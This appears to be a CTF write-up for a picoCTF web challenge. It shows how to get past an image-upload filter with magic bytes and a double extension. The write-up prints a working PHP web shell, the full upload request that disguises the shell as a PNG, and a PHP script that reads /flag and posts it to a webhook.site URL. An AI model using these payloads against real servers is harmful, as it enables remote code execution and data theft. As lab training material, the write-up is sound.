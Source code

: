 
● HxD - bypass file signature
png: 89 50 4E 47 0D 0A 1A 0A
jpg: FF D8 FF DB

Note: [[Web] Computer Security 2023 Fall Course](https://hackmd.io/@CHW/ryPzhx0H6#%E9%9A%B1%E5%AF%AB%E8%A1%93-byNISRA) 

#### 1. 嘗試生成pico.png.php並塞入command
```
 echo '<?php system($_GET["cmd"]); ?>' > pico.png.php
```
Upload pico.png.php
```POST
POST / HTTP/1.1
Host: atlas.picoctf.net:57707
Content-Length: 231
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://atlas.picoctf.net:57707
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryt9J5rgW4kHlekX93
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://atlas.picoctf.net:57707/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
------WebKitFormBoundaryt9J5rgW4kHlekX93
Content-Disposition: form-data; name="~~file~~ image_file"; filename="pico.png.php"
Content-Type: application/~~octet-stream~~ image/png
<?php system($_GET["cmd"]); ?>
------WebKitFormBoundaryt9J5rgW4kHlekX93--
```

![image](https://hackmd.io/_uploads/HyDqcF1Ca.png)
> 跳出的Warning，可以得知系統用PHP寫的

#### 2. 透過upload php POST Webhook
```php=
<?php
// 讀取 /flag 文件的内容
$flag_content = file_get_contents('/flag');

// 檢查是否成功讀取 flag
if ($flag_content !== false) {
    $data = array('flag' => $flag_content);
    $url = 'https://webhook.site/b7887e11-230d-4cac-a3e6-372071c3f2d5';

    // 初始化 cURL
    $ch = curl_init($url);
    curl_setopt($ch, CURLOPT_POST, 1);
    curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($data));
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

    $response = curl_exec($ch);

    if ($response === false) {
        echo 'Error: ' . curl_error($ch);
    } else {
        echo 'Flag sent successfully!';
        echo 'Server response: ' . $response;
    }

```